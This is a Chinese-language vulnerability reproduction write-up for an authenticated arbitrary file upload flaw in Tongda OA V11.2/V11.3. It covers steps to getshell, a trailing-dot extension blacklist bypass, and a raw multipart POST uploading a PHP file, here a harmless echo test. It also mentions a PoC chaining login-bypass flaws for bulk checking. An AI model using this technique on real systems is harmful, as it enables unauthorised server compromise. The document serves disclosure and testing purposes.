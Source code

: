 # 1、漏洞描述

通达OA部分版本在成功登录系统后，存在任意文件上传漏洞，配合手动设置的上传文件保存路径，可直接getshell。

# 2、影响范围

V11.2

V11.3

# 3、漏洞复现



登陆后，选择菜单-->系统管理员-->附件管理；

然后配置文件保存路径，若真实环境中已经保存了上传路径，并且上传路径为webroot目录之下的任何一个子目录，则可不用修改，直接用即可。

![](images/21.png)

文件上传位置在，组织-->系统管理员-->上传附件，默认文件上传位置C:\MYOA\attach\im\2108，因为不在web目录下边，所以不能通过web直接访问，可借助文件包含试试；

![](images/22.png)

上传文件时抓包，同时利用Windows文件命名特性，后缀加.绕过文件上传黑名单，

![](images/23.png)

上传后的目录则在设置的主目录下的im/上传返回的一串数字/文件名,这个2108为im目录的子目录，下划线后边的这串数字则为文件名的一部分，整个文件名在这里是1664170897.21.php，命名规则为返回的这串数字+.+上传的文件名；

![](images/24.png)

POST包：

```python
POST /module/upload/upload.php?module=im HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------405175731128638857693749932995
Content-Length: 948
Origin: http://127.0.0.1
DNT: 1
Connection: close
Referer: http://127.0.0.1/general/index.php?isIE=0&modify_pwd=0
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=5197c48a; PHPSESSID=v0vakndetps2s3o506alv3fhc5

-----------------------------405175731128638857693749932995
Content-Disposition: form-data; name="id"

WU_FILE_0
-----------------------------405175731128638857693749932995
Content-Disposition: form-data; name="name"

21.php
-----------------------------405175731128638857693749932995
Content-Disposition: form-data; name="type"

application/octet-stream
-----------------------------405175731128638857693749932995
Content-Disposition: form-data; name="lastModifiedDate"

2021/8/30 上午10:41:07
-----------------------------405175731128638857693749932995
Content-Disposition: form-data; name="size"

31
-----------------------------405175731128638857693749932995
Content-Disposition: form-data; name="file"; filename="21.php."
Content-Type: application/octet-stream

<?php
echo "this is a friendly test, Please check and repair upload vulnerabilities."
?>
-----------------------------405175731128638857693749932995--

```

# 4、poc

poc这里只验证是否能上传上去，没有考虑上传后的目录问题，不过只要能上传上去，上传后的目录也就能知道，上边也有写。

poc这里调用了通达OA的另外两个漏洞，任意在线用户登录、任意用户登录，为了方便能够在只知道url的情况下，直接验证，配合框架，可以批量。